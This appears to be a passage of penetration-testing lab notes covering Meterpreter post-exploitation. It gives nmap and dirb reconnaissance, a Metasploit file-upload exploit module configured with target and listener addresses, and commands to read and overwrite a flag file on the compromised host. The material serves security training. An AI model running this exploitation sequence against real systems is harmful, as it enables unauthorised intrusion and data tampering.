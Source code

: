 ```shell
# Ignore any error you see, as you have already gained the meterpreter session. To list active sessions, run the following command:
sessions
sessions -i 1

sysinfo
getuid
# We have root access since uid=0
```

<br>

## 7. Post Exploitation Fundamentals

### 7.1. Meterpreter Fundamentals (Basic)

Meterpreter, short for "Meta-Interpreter," is an advanced, dynamically extensible payload used within the Metasploit Framework, a popular penetration testing tool. Meterpreter provides an interactive shell that allows attackers to execute commands and scripts on a compromised system.

**Objective:** Perform the following tasks to complete the lab.

```shell
nmap -sV <target_IP>
dirb <target_IP> # add http or https
```

The command `dirb http://<target_IP>` runs **DIRB**, a tool used for **directory brute-forcing** on web servers. It attempts to discover **hidden directories and files** by making HTTP requests to the target using a predefined wordlist. This is useful for **penetration testing** as it helps identify **login pages, admin panels, backup files, and other sensitive resources** that may not be publicly linked. If a directory exists, DIRB returns its HTTP response code, such as `200` for accessible pages or `403` for restricted ones. This information can be used to further investigate potential security weaknesses in the web application.

```shell
curl <target_IP>

service postgresql start && msfconsole
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <target_IP>
set TARGETURI /
set LHOST <local _Kali_IP>
run
```

**Questions:**

```shell
# 1. Check the present working directory on remote (exploited) machine.
pwd

# 2. List the files present in present working directory of the remote machine.
ls

# 3. Check the present working directory on local (attacker) machine.
lpwd

# 4. List the files present in present working directory of the local machine.
lls

# 5. Get the flag value present in /app/flag1 file.
cat /app/flag1

# 6. Change the flag value present in /app/flag1, so that no one else can get the right flag.
edit /app/flag1 # Type Vlad for example then write and quit > :wq
```